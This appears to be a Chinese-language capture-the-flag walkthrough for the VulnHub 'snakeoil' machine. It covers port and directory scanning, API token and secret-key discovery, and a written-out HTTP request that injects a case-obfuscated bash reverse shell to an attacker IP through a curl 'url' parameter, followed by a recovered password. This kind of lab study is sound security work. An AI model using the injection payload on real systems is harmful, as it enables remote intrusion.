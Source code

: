 # digitalworld.local: snakeoil

> https://download.vulnhub.com/digitalworld/SNAKEOIL.7z

靶场IP：`192.168.32.204`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.204
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 00:04 EDT
Nmap scan report for 192.168.32.204
Host is up (0.00090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8080/tcp open  http    nginx 1.14.2
MAC Address: 00:0C:29:89:70:64 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

访问80端口

![image-20220906120504561](../../.gitbook/assets/image-20220906120504561.png)

访问8080端口

![image-20220906120542811](../../.gitbook/assets/image-20220906120542811.png)

爆破web目录

```
┌──(root💀kali)-[/tmp]
└─# ffuf -u http://192.168.32.204:8080/FUZZ -w  /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -ic -c  -e .php,.html  -mc all -fc 403,404 -fl 45,47,51 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.32.204:8080/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .php .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 403,404
 :: Filter           : Response lines: 45,47,51
________________________________________________

                        [Status: 200, Size: 2882, Words: 598, Lines: 71, Duration: 36ms]
login                   [Status: 405, Size: 64, Words: 10, Lines: 2, Duration: 57ms]
users                   [Status: 200, Size: 140, Words: 5, Lines: 2, Duration: 56ms]
registration            [Status: 200, Size: 29, Words: 3, Lines: 2, Duration: 41ms]
test                    [Status: 200, Size: 17, Words: 2, Lines: 2, Duration: 44ms]
create                  [Status: 200, Size: 2596, Words: 447, Lines: 61, Duration: 56ms]
secret                  [Status: 500, Size: 37, Words: 4, Lines: 2, Duration: 68ms]
run                     [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 48ms]
                        [Status: 200, Size: 2882, Words: 598, Lines: 71, Duration: 46ms]

```

访问`/registration`，提示方法错误

![image-20220906122105146](../../.gitbook/assets/image-20220906122105146.png)

修改post方法，提示缺少`username`

![image-20220906122134210](../../.gitbook/assets/image-20220906122134210.png)

添加`username`字段，提示缺少`password`

![image-20220906122459393](../../.gitbook/assets/image-20220906122459393.png)

注册成功，返回`access_token`

![image-20220906122536882](../../.gitbook/assets/image-20220906122536882.png)

访问`/run`，提示方法错误

![image-20220906122633057](../../.gitbook/assets/image-20220906122633057.png)

提示需要URL

![image-20220906122911522](../../.gitbook/assets/image-20220906122911522.png)

添加url，提示需要访问密钥。

![image-20220906123020395](../../.gitbook/assets/image-20220906123020395.png)

查看文档，找到`access_token_cookie`字段

![image-20220906123323468](../../.gitbook/assets/image-20220906123323468.png)

获取到`secret_key`

![image-20220906123540465](../../.gitbook/assets/image-20220906123540465.png)

然后再回到run页面，加上我们刚刚获得的secret_key，成功得到信息

![image-20220906123631203](../../.gitbook/assets/image-20220906123631203.png)

拿这个开头的信息去查一下发现是curl执行的统计信息，尝试命令注入，发现成功返回信息

![image-20220906124315157](../../.gitbook/assets/image-20220906124315157.png)

直接反弹shell

```
POST /run HTTP/1.1
Host: 192.168.32.204:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 230


{
"url":"--help >/dev/null ; echo '#!/BIN/BASH' >1.sh; echo 'BASH -i > /DEV/TCP/192.168.32.130/12345 0>&1 2>&1' >> 1.sh; tr [:upper:] [:lower:] <1.sh > 2.sh; chmod +x 2.sh; ./2.sh ;",
"secret_key":"commandexecutionissecret"
}
```

![image-20220906124714505](../../.gitbook/assets/image-20220906124714505.png)

查看文件，找到密码：`NOreasonableDOUBTthisPASSWORDisGOOD`

![image-20220906132929796](../../.gitbook/assets/image-20220906132929796.png)

su成功

![image-20220906133002919](../../.gitbook/assets/image-20220906133002919.png)